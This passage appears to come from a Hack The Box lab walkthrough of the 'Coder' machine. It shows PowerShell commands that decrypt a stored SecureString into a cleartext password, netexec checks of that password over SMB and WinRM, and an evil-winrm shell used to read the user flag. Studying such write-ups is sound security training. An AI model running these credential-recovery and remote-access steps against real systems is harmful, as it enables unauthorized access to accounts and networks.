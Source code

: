 So now should start `pwsh` on kali and start decrypting the `Secure String`. First we have to read and store the key and then we have to read the `Secure String` and create a `Secure String` object from it and then we have to create a `PSCredential` object with the created `Secure String` object. Finally the `GetNetworkCredential()` function will return the clear text password.

```bash
┌──(ar0x㉿kali)-[/home/ar0x/Desktop/HTB/Machines/Coder]
└─PS> $key = Get-Content ./key.key

┌──(ar0x㉿kali)-[/home/ar0x/Desktop/HTB/Machines/Coder]
└─PS> $pass = (Get-Content ./enc.txt | ConvertTo-SecureString -Key $key);

┌──(ar0x㉿kali)-[/home/ar0x/Desktop/HTB/Machines/Coder]
└─PS> $cred = New-Object -TypeName System.Management.Automation.PSCredential ("coder.htb/e.black",$pass);

┌──(ar0x㉿kali)-[/home/ar0x/Desktop/HTB/Machines/Coder]
└─PS> $cred.GetNetworkCredential().Password
ypOSJXPqlDOxxbQSfEERy300
```

##### Check the Credentials

So let us test if we can log in with the new password we found as `e.black`.

```bash
┌──(netexec-aAT1m2Ox-py3.11)─(ar0x㉿kali)-[~/Desktop/HTB/Machines/Coder]
└─$ netexec smb coder.htb -u 'e.black' -p 'ypOSJXPqlDOxxbQSfEERy300'
SMB         10.129.229.190  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:coder.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.190  445    DC01             [+] coder.htb\e.black:ypOSJXPqlDOxxbQSfEERy300

```

```bash
┌──(netexec-aAT1m2Ox-py3.11)─(ar0x㉿kali)-[~/Desktop/HTB/Machines/Coder]
└─$ netexec winrm coder.htb -u 'e.black' -p 'ypOSJXPqlDOxxbQSfEERy300'
SMB         10.129.229.190  445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:coder.htb)
WINRM       10.129.229.190  5985   DC01             [+] coder.htb\e.black:ypOSJXPqlDOxxbQSfEERy300 (Pwn3d!)
```

Very nice, the password worked and now we can use `evil-winrm` to get `PSSession` as `e.black` on the system. After getting shell, we also get our first flag. NICE!

```bash
┌──(netexec-aAT1m2Ox-py3.11)─(ar0x㉿kali)-[~/Desktop/HTB/Machines/Coder]
└─$ evil-winrm -i coder.htb -u e.black -p 'ypOSJXPqlDOxxbQSfEERy300'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\e.black\Documents> cat ../Desktop/user.txt
6312dec89306308a3a983b2acf13a9b0
```
